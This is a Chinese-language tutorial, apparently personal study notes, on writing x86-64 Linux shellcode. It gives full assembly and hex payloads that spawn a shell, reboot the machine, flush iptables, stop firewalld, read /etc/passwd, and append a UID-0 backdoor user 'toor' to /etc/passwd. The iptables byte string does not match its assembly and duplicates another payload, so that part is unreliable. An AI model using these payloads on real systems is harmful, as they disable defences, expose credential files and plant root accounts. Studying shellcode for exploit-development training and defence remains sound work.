


（无保护机制情况下）

首先提供编写的大概思路和简单示例

# shellcode编写大概思路

## 1.首先确定将要使用的系统调用

常用 execve   c语言实现  ,编译完成后可以用strace追踪

```
#include<stdio.h>
#include <stdlib.h>
int main()
{
	char *const argv[]={"/xxx/xxx",NULL};
	execve("/xxx/xxx" ,argv, NULL);
	exit(0);
}
```

/* l execve()   一般被称为  执行文件函数  可以调用其他程序的执行，执行shell命令，，调用脚本等等功能。  `使用man 2 execve查看函数说明·`

**函数原型 ：**

`int execve(const char * filename, char * const argv[], char * const envp[]);`

函数说明：

`const char *filename`  	：执行文件的完整路径。

`char *const argv[]	`	：传递给程序的完整参数列表，包括argv[0]，它一般是程序的名。

`char *const envp[]	`	：一般传递NULL，表示可变参数的结尾。

返回值：如果执行成功则函数不会返回, 执行失败则直接返回-1, 失败原因存于errno 中.

*/

​		**strace**可以跟踪到一个进程产生的系统调用,包括参数，返回值，执行消耗的时间。

`strace filename -o log.txt `。

## 2.用汇编语言中实现 系统调用

​	用下面的指令查询系统调用号，再根据系统调用号再系统调用表中查询具体参数信息

```
cat /usr/include/asm/unistd_64.h | grep   xxx
```

32位与64位传参有所不同，都有单独的系统调用表，相关链接如下：

https://syscalls32.paolostivanin.com   32位

https://syscalls64.paolostivanin.com   64位

https://hackeradam.com/x86-64-linux-syscalls/    64位与第二个相同

例 64位写execve("/bin/sh", ["/bin/sh"], NULL)

```
global _start
section .text
 
_start:
	; execve("/bin/sh", ["/bin/sh"], NULL)
	; rax = 0x3b, rdx= NULL, rdi = '//bin/sh', rsi = '//bin/sh'
	xor		rdx, rdx
	mov		qword rbx, '//bin/sh'		; 0x68732f6e69622f2f
	shr		rbx, 0x8
	push		rbx
	mov		rdi, rsp
	push		rax
	push		rdi
	mov		rsi, rsp
	mov		al, 0x3b
	syscall
```

## 3.提取机器码

```
objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

## 4.查看机器码中是否存在 bad character 若存在需要消除

消除赋值产生bad character    

消除有关地址产生的bad character 

 具体操作查看示例中

## 5.c语言验证

```
#include <stdio.h>
#include <string.h>
int main()
{
 	const char shellcode[] = "";
    printf("Shellcode length: %d bytes\n",(int)strlen(shellcode));
    //printfshellcode 长度
    //当shellcode包含空字符时，printf 将会打印出错误的 shellcode 长度
    (*(void(*)())shellcode)();
}
```


# 例：Linux下编写Shellcode 输出 Hello World     /* */中为相关知识

​		基本过程是首先使用汇编通过系统调用的方式实现程序功能，编译成可执行文件，然后使用 objdump 进行机器码提取

## 1.确定将要使用的系统调用

​		要输出一个 hello world，可以通过 write 函数来实现，通过下面的方法查找 write 函数的系统调用号（找出来的是十进制的）

```
cat /usr/include/asm/unistd_32.h | grep write
cat /usr/include/asm/unistd_64.h | grep write
```


寄存器RAX 是存放系统调用号的，这里就应该是1

使用 `man 2 write` 可以找到 write 函数的参数 

/*

```
apt-get install manpages-de  manpages-de-dev  manpages-dev glibc-doc manpages-posix-dev manpages-posix  //Ubuntu默认是没有完全安装man手册的，执行此段命令安装man手册  
```

| man命令+数字 | 说明                                                         |
| ------------ | ------------------------------------------------------------ |
| 1            | 可执行程序或 Shell 命令                                      |
| 2            | 系统调用（内核提供的函数）                                   |
| 3            | 库调用                                                       |
| 4            | 特殊文件（通常位于 /dev 目录）                               |
| 5            | 文件格式和约定（比如 /etc/passwd）                           |
| 6            | 游戏                                                         |
| 7            | 杂项（包和一些约定）Miscellaneous (including macro packages and conventions), e.g. man(7), groff(7) |
| 8            | 系统管理命令（通常是 root 用户执行的命令）                   |
| 9            | 内核相关的文件 Kernel routines [Non standard]                |

*/

write函数：

==ssize_t write(int fd, const void *buf, size_t count);==

​		第一个参数是三种输出模式

| 0        | 1        | 2        |
| -------- | -------- | -------- |
| stdin    | stdout   | stderr   |
| 标准输入 | 标准输出 | 标准错误 |

​		第二个参数是字符串的指针

​		第三个参数是输出的字数

​	**64 位的程序，寄存器传参：rdi, rsi, rdx, rcx, r8, r9 剩下的才用栈**，所以 rdi 应该是 1，rsi 应该是字符串的地址，rdx 应该是长度

## 2.编写汇编代码 

### 1.编写 hello-world.asm

```
global _start	;_start就像C程序的main函数一样特殊，是整个程序的入口，链接器在
				;链接时会查找目标文件中的_start符号代表的地址，把它设置为整个程序	
				;的入口地址，所以每个汇编程序都要提供一个_start符号并且用.globl声明
				
section .text 	   ;段声明，保存代码，是只读和可执行的。
_start:
   mov rax, 1               ;设置rax寄存器为write的系统调用号
   mov rdi, 1               ;设置rdi为write的第一个参数
   mov rsi, hello_world     ;设置rsi为write的第二个参数
   mov rdx, length          ;设置rdx为write的第三个参数
   syscall                  ;调用syscall
   
section .data	;段声明，保存程序的数据，是可读可写的，相当于C程序的全局变量。
   hello_world: db 'hello world',0xa       ;字符串hello world以及换行
   length: equ $-hello_world               ;获取字符串长度
```

### 2.汇编、链接：

   /*需要安装nasm汇编编译器*/

```
nasm -felf64 hello-world.asm -o hello-world.o   //汇编
ld hello-world.o -o hello-world					//链接
./hello-world   								//执行
```



出现段错误是因为没有正常退出，可以源文件中的syscall后加上

```
mov rax,60
mov rdi,0
syscall
```

运行结果如下：


```
objdump -d -M intel hello-world   //查看汇编
```


## 3.使用objdump提取shellcode

（具体意思不懂）

```
objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

运行完会提取出对应的机器码：

```
\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\xbe\x00\x20\x40\x00\x00\x00\x00\x00\xba\x0c\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x0a
```

### 4.在C语言中测试shellcode：（此时存在bad character）

```
#include <stdio.h>
#include <string.h>
int main()
{
 const char shellcode[] = "\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\xbe\x00\x20\x40\x00\x00\x00\x00\x00\xba\x0c\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x0a";
    printf("Shellcode length: %d bytes\n",(int)strlen(shellcode));
    (*(void(*)())shellcode)();
}
```

编译时需要关掉一些保护机制：

```
gcc test.c -o test -z execstack -z norelro -no-pie -g
```



​		运行后会出现错误，因为 shellcode 中存在一些 \x00，我们称为：bad character，它会使字符串截断，就没有后面什么事情了，所以要想办法消除这些 **bad character**

| bad character列表 |      |          |
| :---------------: | ---- | -------- |
|        00         | \0   | null     |
|        0A         | \n   | 回车换行 |
|        FF         | \f   | 换页     |
|        0D         | \r   | 回车     |

## 4.**消除bad character**   并在C语言 中 验证

来看一下这些 bad character 是怎么形成的

```
objdump -d -M intel hello-world
```


### 消除赋值产生bad character

针对这种的 `mov eax,0x1`，有两种方法解决：

1.可以使用对寄存器的一部分赋值实现，比如：`mov al,0x1`

2.还可以通过 `xor rax,rax` 先把 rax 置为 0，然后 `add rax,0x1` 实现

/*

```
XOR destination, source
```

XOR 异或 。相同为0 相异为1 .

*/

```
global _start
section .text
_start:
   mov al,0x1               
	xor  rdi,rdi
	add  rdi,0x1            
   mov rsi, hello_world    
   mov rdx, length       
   syscall   
   
section .data
   hello_world: db 'hello world',0xa    ;0xa换行   
   length: equ $-hello_world 
   
mov rax,60
mov rdi,0
syscall
```

对应改动源文件后再次观察：


 		 可以看到消除一部分bad character 

### 消除有关地址产生的bad character 

#### 1.**relative address technique**

​		通过 rel 相对 RIP 偏移找到变量的位置，等到程序执行的时候会使用 rip 减去与 hello_world 的差值，从而获得 hello_world 在内存中的位置

最终修改完的asm文件为：

```
global _start
section .text			;段保存代码，是只读和可执行的，后面那些指令都属于.text段。
_start:       			;程序的入口
	jmp code
	hello_world:db 'hello world',0xa  
	   ;DB作为汇编语言中的伪操作命令，它用来定义操作数占用的字节数。
	   ;DB/BYTE（DefineByte），每个字节只占一个字节单元。读完一个，偏移量加1
	   ;编译时，DB后面的数据将视为纯数据而不是指令代码。
code:
 mov al,1               
 xor  rdi,rdi
 add  rdi,1
	
	lea rsi,[rel hello_world]
		 ;
		 ;假设：SI=1000H , DS=5000H, (51000H)=1234H
　　		;执行指令 LEA BX , [SI]后，BX=1000H
　　		;执行指令 MOV BX , [SI]后，BX=1234H
		 ; rel ： rip - related  以当前rip为基地址, 立即数为偏移量
	xor rdx,rdx
	add rdx,12
;mov rsi, hello_world     
;mov rdx, length          

   syscall                 

	xor rax,rax
	add rax,60
	xor rdi,rdi
;mov rax,60
;mov rdi,0
syscall
```

提取字节码，并放在C程序中验证

```
nasm -felf64 hello-world.asm -o hello-world.o   //汇编
ld hello-world.o -o hello-world					//链接
./hello-world   								//执行
objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

```
#include <stdio.h>
#include <string.h>
int main()
{
    const char shellcode[] =  "\xeb\x0c\x68\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x0a\xb0\x01\x48\x31\xff\x48\x83\xc7\x01\x48\x8d\x35\xe4\xff\xff\xff\x48\x31\xd2\x48\x83\xc2\x0c\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05";
    printf("Shellcode length: %d bytes\n",(int)strlen(shellcode));
    (*(void(*)())shellcode)();
}
```

```
gcc test.c -o test -z execstack -z norelro -no-pie -g   

./test
```

运行结果如图：


​    2  3自行测试

#### 2.**jmp-call technique**

通过在字符串前面 call 把字符串的地址压栈，然后 pop 获取

```
global _start
section .text

_start:
 jmp string          ;首先会跳转到 string 
 
code:
 pop rsi             ;此时可以把压在栈上的hello_world的地址获取到
 mov al,1
 xor rdi,rdi
 add rdi,1
 xor rdx,rdx
 add rdx,12
 syscall

 xor rax,rax
 add rax,60
 xor rdi,rdi
 syscall
 
string:
 call code          ;call会把返回地址压栈，然后执行code的代码
 hello_world:db 'hello world',0xa
```

#### **3.stack technique**

​		借助栈来存放，需要提前设置好字符串的十六进制逆序，用python的 string[::-1].encode('hex')

```
>>> string = "hello world\n"
>>> string[::-1].encode('hex')
'0a646c726f77206f6c6c6568'
```

```
global _start
section .text

_start:

 xor rax,rax
 add rax,1
 mov rdi,rax
 push 0x0a646c72
 mov rbx,0x6f77206f6c6c6568
 push rbx
 mov rsi,rsp        ;rsp就是栈顶的地址，也就是字符串在栈上的地址
 xor rdx,rdx
 add rdx,12
 syscall

 xor rax,rax
 add rax,60
 xor rdi,rdi
 syscall
```

#### 通过   shr 右移位数消除


# Shellcode编写

## 1.打开 terminal

### 1.用c语言中execve函数调用实现

```
#include<unistd.h>
#include<stdlib.h>

int main()
{
		  char *buf [] = {"/bin/sh",NULL};
          execve("/bin/sh",buf,0);
          exit(0);
}
```

```
gcc test.c -o test -z execstack
./test
```

编译运行可以看到成功打开shell


### 2.确定系统调用

1.  跟踪系统调用号

```
strace  ./test   (-o test.txt [写进txt文档中])
```

​		此处比较简单，通过系统调用execve函数 返回shell。

​		execve函数在父进程中fork一个子进程，在子进程中调用exec函数启动新的程序。execve()用来执行第一参数字符串所代表的文件路径，第二个参数是利用指针数组来传递给执行文件，并且需要以空指针(NULL)结束，最后一个参数则为传递给执行文件的新环境变量数组。从程序中可以看出，如果通过C语言调用execve来返回shell的话，首先需要引入相应的头文件，然后在主函数中调用系统调用函数execve；同时传入三个参数。

2.  查询execve系统调用号和具体参数情况

```
cat /usr/include/asm/unistd_64.h | grep  execve
```


```
https://hackeradam.com/x86-64-linux-syscalls/
```


### 3.编写汇编代码

#### 黄

##### 1.28 bytes

```
global _start
section .text

_start:
	xor rcx, rcx  ;rcx=0
	mul rcx		   ;rax=0

	add al, 0x3b     ; rax=59
	mov rbx, 0x68732f2f6e69622f ; hs//nib/

; Argument one shell[0] = "/bin//sh"
	push rdx     ; null
	push rbx     ; hs//nib/

; We need pointers for execve()
	push rsp     ; *pointer to shell[0]
	pop rdi      ; Argument 1

; Argument two shell (including address of each argument in array)
	push rdx     ; null
	push rdi     ; address of shell[0]

; We need pointers for execve()
	push rsp     ; address of char * shell
	pop rsi      ; Argument 2

	syscall
```

```
"\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb"
"\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53"
"\x54\x5f\x52\x57\x54\x5e\x0f\x05" 
```

##### 2.  34bytes

```
global _start
section .text

_start:
xor rcx, rcx
mul rcx      ;rax=0

call do

add al, 0x3b     ; execve()
mov rbx, 0x68732f2f6e69622f ; hs//nib/

; Argument one shell[0] = "/bin//sh"
push rdx     ; null
push rbx     ; hs//nib/

; We need pointers for execve()
push rsp     ; *pointer to shell[0]
pop rdi      ; Argument 1

; Argument two shell (including address of each argument in array)
push rdx     ; null
push rdi     ; address of shell[0]

; We need pointers for execve()
push rsp     ; address of char * shell
pop rsi      ; Argument 2

syscall

_do:
ret
```

```
\x48\x31\xc9\x48\xf7\xe1\xe8\x16\x00\x00\x00\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05\xc3
```

##### 3.  27bytes

```
global _start
section .text

_start:
xor eax, eax
mov rbx, 0xFF978CD091969DD1    ;68732f2f6e69622f的neg   
neg rbx 	;neg   把操作数按位取反，末位加1
push rbx     
pop rdi
cdq
push rdx
push rdi
;mov rsi, rsp
push rsp
pop rsi
mov al, 0x3b
syscall
```

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

### 4.改  30bytes

| rax  |    rdi     |     rsi      | rdx  |
| :--: | :--------: | :----------: | :--: |
|  59  | '//bin/sh' | ['//bin/sh'] | NULL |

​		首先  /bin/sh  参数用 python 生成逆序的十六进制，这里多加一个 / 用来占空，防止出现 0x00

```
python  //启动python
string = "//bin/sh"
string[::-1].encode('hex')
```

得到 `68732f6e69622f2f`

```
global _start
section .text
_start:
	xor rax,rax 	;rax=0,栈上压入一个 0x00，用来截断 /bin/sh
	push rax		;rax入栈
	mov rdx,rsp		;rdx=0
	mov rbx,0x68732f6e69622f2f	;将"//bin/sh"传给rbx
	push rbx		;rbx入栈，即"//bin/sh"入栈
	mov rdi,rsp		;将"//bin/sh"传给rdi
	push rax		;rax入栈,这里再次 push 的 rax 作为截断
	push rdi		;
	mov rsi,rsp		
	add rax,59		;系统调用号是 59，最后加一个 syscall
	syscall
```

提取机器码  **30字节**

```
\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
```

## 2.重启  reboot

### 1.使用execve("/usr/sbin/reboot", ["/usr/sbin/reboot"], NULL)  

| rax  |        rdi         |         rsi          | rdx  |
| :--: | :----------------: | :------------------: | :--: |
|  59  | '/usr/sbin/reboot' | ['/usr/sbin/reboot'] | NULL |

```
global _start
section .text
 
_start:
	; execve("/usr/sbin/reboot", ["/usr/sbin/reboot"], NULL)
	; rax = 0x3b, rdx= NULL, rdi = '/usr/sbin/reboot', rsi = '/usr/sbin/reboot'
	xor		rdx, rdx
	push  	rdx
	mov		rbx, 'n/reboot'
	push		rbx
	mov 	rbx, '/usr/sbi'
	push 		rbx
	mov		rdi, rsp
	push		rax
	push		rdi
	mov		rsi, rsp
	mov		al, 0x3b
	syscall
```

#### 1.**38bit**黄

```
\x48\x31\xd2\x52\x48\xbb\x6e\x2f\x72\x65\x62\x6f\x6f\x74\x53\x48\xbb\x2f\x75\x73\x72\x2f\x73\x62\x69\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

#### 2.**44bit**黄

```
\x48\x31\xd2\x52\x48\xbb\x92\xd0\x8d\x9a\x9d\x90\x90\x8b\x48\xf7\xdb\x53\x48\xbb\xd1\x8a\x8c\x8d\xd0\x8c\x9d\x96\x48\xf7\xdb\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

#### 3.. 改**47bit**

python  //启动python
string = "/usr/sbi"

string[::-1].encode('hex')  //'6962732f7273752f'   neg 969d8cd08d8c8ad1

string="n/reboot"
string[::-1].encode('hex') //746f6f6265722f6e     neg    8b90909d9a8dd092

```
global _start
section .text
 
_start:
	mov		al, 0x3b
	xor		rdx, rdx
	push  	rdx
	mov		rbx,0x8b90909d9a8dd092
	neg 	rbx
	push	rbx
	mov 	rbx,0x969d8cd08d8c8ad1
	neg 	rbx
	push 	rbx
	mov		rdi, rsp
	xor		rdx, rdx
	push		rdx
	push		rdi
	mov		rsi, rsp
	syscall
```


```
\xb0\x3b\x48\x31\xd2\x52\x48\xbb\x92\xd0\x8d\x9a\x9d\x90\x90\x8b\x48\xf7\xdb\x53\x48\xbb\xd1\x8a\x8c\x8d\xd0\x8c\x9d\x96\x48\xf7\xdb\x53\x48\x89\xe7\x48\x31\xd2\x52\x57\x48\x89\xe6\x0f\x05

```


### 2.使用sys_reboot  调用号169      （需要运行加sudo）

#### 1.参考资料   24bytes

http://178.79.135.109/shellcode/files/shellcode-602.php     shell-storm

https://www.onitroad.com/jc/linux/man-pages/linux/man2/reboot.2.html   参数详情(可根据参数进行关机的其他操作)


```
int reboot(int magic, int magic2, int cmd, void *arg);
```

```
 section .text
        global _start
    _start:
    	xor		rdx,rdx
        add     rdx, 0x1234567
        mov     rsi, 0x28121969
        mov     rdi, 0xfee1dead
        mov     al,  0xa9
        syscall
```

```
\x48\x31\xd2\x48\x81\xc2\x67\x45\x23\x01\xbe\x69\x19\x12\x28\xbf\xad\xde\xe1\xfe\xb0\xa9\x0f\x05
```

#### 2.改38bytes

```
 section .text
        global _start
 
    _start:
    
        mov     rax,0xd7ede697  ;0x28121969
        neg 	rax
        mov		rsi,rax
        mov    rax,0x011e2153
        neg 	rax
        mov		rdi,rax
        
        xor		rdx,rdx
        add     rdx, 0x1234567
        xor 	rax,rax
        mov     al,  0xa9
        syscall   
```

```
\xb8\x97\xe6\xed\xd7\x48\xf7\xd8\x48\x89\xc6\xb8\x53\x21\x1e\x01\x48\xf7\xd8\x48\x89\xc7\x48\x31\xd2\x48\x81\xc2\x67\x45\x23\x01\x48\x31\xc0\xb0\xa9\x0f\x05
```


## 3.关闭防火墙  

### 1.黄  关闭iptables   未尝试 66byte

```
section .text
	global _start
         
_start:
    xor     rax, rax
    push    rax
    push    word 0x462d
    mov     rcx, rsp
       
    mov     rbx, 0x73656c626174ffff
    shr     rbx, 0x10
    push    rbx
    mov     rbx, 0x70692f6e6962732f
    push    rbx
    mov     rdi, rsp
         
    push    rax
    push    rcx
    push    rdi
    mov     rsi, rsp
        
    ; execve("/sbin/iptables", ["/sbin/iptables", "-F"], NULL);
    mov     al, 0x3b
    syscall
```

```
\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x70\x61\x73\x73\x77
\x64\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5
\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48
\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58
\x0f\x05
```

### 2.关闭firewalld(需要加sudo)116byte

```
1:查看防火状态
systemctl status firewalld
2:暂时关闭防火墙
systemctl stop firewalld
3:永久关闭防火墙
systemctl disable firewalld
4:重启防火墙
systemctl enable firewalld
5:永久关闭后重启
//暂时还没有试过
chkconfig iptables on
```

```
execve("/usr/bin/systemctl", ["systemctl", "stop", "firewalld"], 0x7ffce10e22a0 /* 53 vars */) 
```

| rax  |         rdi          |                rsi                 | rdx  |
| :--: | :------------------: | :--------------------------------: | :--: |
|  59  | '/usr/bin/systemctl' | ["systemctl", "stop", "firewalld"] | NULL |

/usr/bin     	6e69622f7273752f			nib/rsu/

/systemc		636d65747379732f			cmetsys/

tl					0000000000006c74			000000lt

stop   		706f7473

firewall		6c6c617765726966    

d				64

```
section .text
	global _start
         
_start:
    xor rbx,rbx
    ;push rbx 
    add  rbx,0x6c74				;000000lt
    push rbx
    mov rbx,0x636d65747379732f ;cmetsys/
    push rbx
    mov rcx,0x6e69622f7273752f  ;nib/rsu/
    push rcx
    mov rdi,rsp				;rdi='/usr/bin/systemctl00000000'
    
    
    xor rbx,rbx
    ;push rbx
    add rbx,0x6c				;0000000l
    push rbx
    mov rbx,0x74636d6574737973	;tcmetsys
    push rbx					
    mov rbx,rsp					;rbx=[systemctl]
    
    
    xor rax,rax	
    ;push rax
    add rax,0x706f7473			;0000pots
    push rax					
    mov rcx,rsp					;rcx=[stop]
    
    xor rax,rax
    ;push rax
    add rax,0x64			
    push rax					;d
    mov rax,0x6c6c617765726966	;firewall
   	push rax
   	mov rdx,rsp					;rdx=[firewalld]
   	
   	xor rax,rax
    push rax
    push rdx
    push rcx
    push rbx
    mov rsi,rsp
   
	xor rax,rax
    add rax,0x3b
    xor rdx,rdx
   	 syscall
```


```
\x48\x31\xdb\x53\x48\x81\xc3\x74\x6c\x00\x00\x53\x48\xbb\x2f\x73
\x79\x73\x74\x65\x6d\x63\x53\x48\xb9\x2f\x75\x73\x72\x2f\x62\x69
\x6e\x51\x48\x89\xe7\x48\x31\xdb\x48\x83\xc3\x6c\x53\x48\xbb\x73
\x79\x73\x74\x65\x6d\x63\x74\x53\x48\x89\xe3\x48\x31\xc0\x48\x05
\x73\x74\x6f\x70\x50\x48\x89\xe1\x48\x31\xc0\x48\x83\xc0\x64\x50
\x48\xb8\x66\x69\x72\x65\x77\x61\x6c\x6c\x50\x48\x89\xe2\x48\x31
\xc0\x50\x52\x51\x53\x48\x89\xe6\x48\x31\xc0\x48\x83\xc0\x3b\x48
\x31\xd2\x0f\x05
```


## 4.读取passwd

### 1.使用 execve("/bin/cat", ["/bin/cat", "//////etc/passwd"], NULL)、

| rax  |   rdi    |             rsi             | rdx  |
| :--: | :------: | :-------------------------: | :--: |
|  59  | /bin/cat | ["/bin/cat", "/etc/passwd"] | NULL |

#### 1.黄 66bytes

```
global _start
section .text

_start:

       xor rax, rax                   ; Zeroes out RAX.
       xor rbp, rbp                   ; Zeroes out RBP.

       push rax                       ; Pushes RAX's NULL-DWORD.

       mov rbp, 0x6477737361702f63    ; Moves value "dwsspa/c" into RBP.
       push rbp                       ; Pushes the vaueof RBP into the Stack.

       mov rbp, 0x74652f2f2f2f2f2f    ; Moves value "te//////" into RBP.
       push rbp                       ; Pushes the vaue of RBP into the Stack.

       mov rbp, rsp                   ; Copies the value of the Stack into RBP.
       push rax                       ; Pushes RAX's NULL-DWORD.

       mov rbx, 0x7461632f6e69622f    ; Moves value "tac/nib/" into RBX.
       push rbx                       ; Pushes the vaue of RBX into the Stack.

       mov rbx, rsp                   ; Copies the value of the Stack into RBX.

       mov rdi, rsp                   ; Copies the value of the Stack into RDI.
       push rax                       ; Pushes RAX's NULL-DWORD.

       mov rdx, rsp                   ; Copies the value of the Stack into RDX. As the previous DWORD was completely NULL, RDX is set to 0.

       push rbp                       ; Pushes the vaue of RBP into the Stack.
       push rbx                       ; Pushes the vaue of RBX into the Stack. The full string should be "cat /etc/passwd".

       mov rsi, rsp                   ; Copies this entire string from the Stack into RSI.

       push word 59                   ; Pushes the value 59 (syscall value for execve in the x64 format).
       pop ax                         ; Pops this value into AX so there are no NULLs.
       syscall                        ; The syscall is executed.
```


```
\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x70\x61\x73\x73\x77
\x64\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5
\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48
\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58
\x0f\x05
```

#### 2.改 59bytes

/bin/cat   	0x7461632f6e69622f

//////et		0x74652f2f2f2f2f2f

c/passwd		0x6477737361702f63

/etc/pas			0x7361702f7463652f

swd					0x647773

```
global _start
section .text

_start:
      ;xor rdx,rdx
      ;add rdx,0x647773
	  ;push rdx
      ;mov rdx,0x7361702f7463652f
      
     xor rax,rax
     push rax
      mov rbx,0x6477737361702f63
      push rbx
      mov rbx,0x74652f2f2f2f2f2f
      push rbx
      mov rbx,rsp	;rbx=[/etc/passwd]
      
      
      push rax
      
      mov rcx,0x7461632f6e69622f
      push rcx
      mov rdi,rsp		;rdi=[/bin/cat]
      
      push rax
      push rbx
      push rdi
      mov rsi,rsp
      
      xor rdx,rdx
      add rax,59
      syscall
```

```
\x48\x31\xc0\x50\x48\xbb\x63\x2f\x70\x61\x73\x73\x77\x64\x53\x48
\xbb\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x53\x48\x89\xe3\x50\x48\xb9
\x2f\x62\x69\x6e\x2f\x63\x61\x74\x51\x48\x89\xe7\x50\x53\x57\x48
\x89\xe6\x48\x31\xd2\x48\x83\xc0\x3b\x0f\x05
```

### 2.通过系统调用 read (需要sudo)

#### 1.黄 77bytes

```
global _start
section .text

_start:
	jmp _push_filename
  
_readfile:

	pop rdi 
	xor rax, rax
	add al, 2
	xor rsi, rsi 
	add rsi,2
	syscall     ;open('/etc/passwd',0 )

; syscall read file, 0x0
; read(fd, buf, 0xfff), rdi=rax=fd(fd is open's return number)
	sub sp, 0xfff
	lea rsi, [rsp]
	mov rdi, rax			
	xor rdx, rdx
	mov rdx, 0xfff;   rdx  size to read
	xor rax, rax
	syscall         ;ssize_t read(int fd, void *buf, size_t count);  read（） 尝试从文件描述符 fd 读取字节数，从 buf 开始。   rdi=open返回值  rsi栈的地址   
  
; syscall write to stdout, 0x1
	xor rdi, rdi
	inc rdi 		; set stdout fd = 1
	mov rdx, rax
	xor rax, rax
	inc rax
	syscall  	;write(fd, buf, 0xfff)
  
	xor rax, rax
	add al, 60
	syscall    ; syscall exit
_push_filename:
	call _readfile
	path: db "/etc/passwd"
```

```
\xeb\x3b\x5f\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec
\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f
\x48\x31\xc0\x0f\x05\x48\x31\xff\x48\xff\xc7\x48\x89\xc2\x48\x31
\xc0\x48\xff\xc0\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xc0\xff
\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64
```

#### 2.改 	88bytes

```
global _start
section .text

_start:
	xor rax,rax
	add rax,0x647773
	push rax
	mov rax,0x7361702f6374652f
	push rax
	mov rdi,rsp 
	
	xor rax, rax
	push rax
	add al, 2
	xor rsi, rsi 
	add rsi,2
	
	syscall   
    
	sub sp, 0xfff
	lea rsi, [rsp]
	mov rdi, rax			
	xor rdx, rdx
	mov rdx, 0xfff
	xor rax, rax
	syscall        
  
	xor rdi, rdi
	inc rdi 		
	mov rdx, rax
	xor rax, rax
	inc rax
	syscall 
  
	xor rax, rax
	add al, 60
	syscall   

```


```
\x48\x31\xc0\x48\x05\x73\x77\x64\x00\x50\x48\xb8\x2f\x65\x74\x63
\x2f\x70\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x04\x02\x48\x31
\xf6\x48\x83\xc6\x02\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24
\x48\x89\xc7\x48\x31\xd2\xba\xff\x0f\x00\x00\x48\x31\xc0\x0f\x05
\x48\x31\xff\x48\xff\xc7\x48\x89\xc2\x48\x31\xc0\x48\xff\xc0\x0f
\x05\x48\x31\xc0\x04\x3c\x0f\x05
```


## 5.写入 passwd 普通用户

### 黄  需要改变 uid 和gid

#### 1.74 bytes 添加     toor:sXuCKi7k3Xh/s:0:0::/root:/bin/sh

```
; username: toor
; password: toor
; uid: 0
; gid: 0
; home: /root
; shell: /bin/sh
```

```
global _start

section .text

_start:
	jmp _push_filename
	
_openfile:
	pop rdi 	 
	xor rax, rax
	xor rsi, rsi 
	mov si, 0x401 			;O_WRONLY|O_APPEND(0x401)
	add al, 0x2 		
	syscall ;   1  open("/etc/passwd",0x401)

	xchg rdi, rax 			;交换，将返回值存入rdi
jmp short get_entry_address 

write_entry:
	pop rsi 
	push 0x1
	pop rax 
	push 38 
    pop rdx
	syscall   ;	2  write(read返回值,要写入的字符串，size_t count)

	push 60
	pop rax
	syscall 

get_entry_address:
	call write_entry
	user_entry: db "toor:sXuCKi7k3Xh/s:0:0::/root:/bin/sh",0xa

_push_filename:
	call _openfile
	path: db "/etc/passwd"
```

```
